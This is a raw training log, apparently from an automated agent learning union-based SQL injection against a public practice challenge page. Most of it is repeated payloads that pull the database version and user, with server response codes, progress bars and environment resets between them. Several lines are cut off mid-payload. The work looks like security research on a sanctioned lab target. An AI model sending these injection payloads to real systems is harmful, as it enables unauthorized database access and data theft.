https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=

  0%|          | 1150/1000000 [6:50:58<4246:26:22, 15.30s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1151/1000000 [6:50:59<3064:16:14, 11.04s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1152/1000000 [6:51:00<2219:37:40,  8.00s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1153/1000000 [6:51:01<1637:09:00,  5.90s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1154/1000000 [6:51:02<1227:25:20,  4.42s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user() --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Se

  0%|          | 1155/1000000 [6:51:58<5502:55:22, 19.83s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1156/1000000 [6:51:59<3928:00:59, 14.16s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1157/1000000 [6:52:00<2842:44:12, 10.25s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1158/1000000 [6:52:01<2066:29:11,  7.45s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union sel

  0%|          | 1159/1000000 [6:52:34<4202:49:21, 15.15s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1160/1000000 [6:52:35<3016:52:03, 10.87s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1161/1000000 [6:52:36<2193:16:01,  7.90s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3 --
Nothing reponse
Server response is -1
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union sele

  0%|          | 1162/1000000 [6:53:13<4686:44:35, 16.89s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1163/1000000 [6:53:14<3357:16:40, 12.10s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Quer

  0%|          | 1164/1000000 [6:53:45<4875:19:45, 17.57s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response 

  0%|          | 1165/1000000 [6:54:41<8115:33:09, 29.25s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1166/1000000 [6:54:42<5758:52:52, 20.76s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1167/1000000 [6:54:44<4182:28:28, 15.07s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1168/1000000 [6:54:45<3007:00:52, 10.84s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1169/1000000 [6:54:46<2188:42:17,  7.89s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1170/1000000 [6:54:47<1616:36:52,  5.83s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1171/1000000 [6:54:48<1209:10:27,  4.36s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3 --
Nothing reponse
Server response is -1
 ' and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax erro

  0%|          | 1172/1000000 [6:59:51<26086:04:40, 94.02s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1173/1000000 [6:59:52<18342:54:01, 66.11s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 '

  0%|          | 1174/1000000 [7:02:05<23870:05:00, 86.03s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server respons

  0%|          | 1175/1000000 [7:02:20<18014:06:38, 64.93s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1176/1000000 [7:02:21<12690:14:16, 45.74s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1177/1000000 [7:02:22<8959:34:25, 32.29s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https:

  0%|          | 1178/1000000 [7:02:43<7997:21:21, 28.82s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3


  0%|          | 1179/1000000 [7:03:39<10245:48:40, 36.93s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1180/1000000 [7:03:40<7248:38:51, 26.13s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union se

  0%|          | 1181/1000000 [7:04:14<7972:45:40, 28.74s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,

  0%|          | 1182/1000000 [7:04:43<7929:30:20, 28.58s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Sy

  0%|          | 1183/1000000 [7:05:06<7479:41:54, 26.96s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 union select 1,user(),3,4 --
https://zixem.alt

  0%|          | 1184/1000000 [7:05:23<6668:21:31, 24.03s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user

  0%|          | 1185/1000000 [7:06:03<7962:09:08, 28.70s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version() --
Query with differenc number of column
Server

  0%|          | 1186/1000000 [7:06:32<8032:03:37, 28.95s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1187/1000000 [7:06:33<5704:53:31, 20.56s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' 

  0%|          | 1188/1000000 [7:07:23<8113:10:43, 29.24s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1189/1000000 [7:07:24<5759:01:43, 20.76s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server res

  0%|          | 1190/1000000 [7:07:56<6734:14:09, 24.27s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1191/1000000 [7:07:57<4791:43:36, 17.27s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server res

  0%|          | 1192/1000000 [7:10:56<18232:42:20, 65.72s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3 --
Nothing reponse
Server response is -1
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3 --
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--


  0%|          | 1193/1000000 [7:11:30<15569:38:05, 56.12s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax

  0%|          | 1194/1000000 [7:17:26<40555:14:16, 146.17s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1195/1000000 [7:17:26<28423:55:36, 102.45s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1196/1000000 [7:17:27<19976:43:45, 72.00s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3 --
Nothing reponse
Server re

  0%|          | 1197/1000000 [7:18:07<17320:10:51, 62.43s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1198/1000000 [7:18:09<12277:36:32, 44.25s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1199/1000000 [7:18:10<8686:20:48, 31.31s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1200/1000000 [7:18:11<6164:50:00, 22.22s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4 --
Sy

  0%|          | 1201/1000000 [7:19:06<8888:01:39, 32.04s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
